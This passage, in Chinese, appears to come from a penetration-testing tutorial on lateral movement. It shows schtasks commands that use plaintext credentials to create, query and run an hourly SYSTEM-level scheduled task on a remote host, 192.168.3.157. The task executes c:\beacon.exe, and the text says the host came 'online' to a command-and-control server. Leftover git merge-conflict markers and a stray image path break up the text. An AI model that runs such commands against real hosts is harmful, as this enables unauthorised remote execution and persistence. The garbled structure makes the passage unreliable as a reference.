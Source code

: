 [![](assets/1710211848-af46ea1f9237a2e817c57eabc4085c55.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135102-d8778868-dd0f-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

**schtasks 执行计划任务**  
比 at 命令灵活，但是在 `c:\windows\tasks\xxx.txt` 会留下日志  
在目标主机 192.168.3.157 上创建一个名为 test 的计划任务，启动权限为 system，启动时间为每隔一小时启动一次

<<<<<<< HEAD
```plain
schtasks /create /s 192.168.3.157 /tn test /sc HOURLY /mo 1 /tr c:\beacon.exe /ru system /f /U micle /P admin
```

[![](assets/1710899837-053151f79c61876b3190705ec81c378d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135131-ea0083f0-dd0f-1.png)

查询该 test 计划任务

```plain
schtasks /query /s 192.168.3.157 /U micle -P admin | findstr test
```

[![](assets/1710899837-9b681e15286afdeeff82caad1e0c430e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135126-e700c3fe-dd0f-1.png)

启动 test 计划任务，成功上线

```plain
schtasks /run /s 192.168.3.157 /i /tn "test" /U micle -P admin
```

[![](assets/1710899837-08bbab607eedb04ab916a032455baf68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240308135120-e3825dfa-dd0f-1.png)
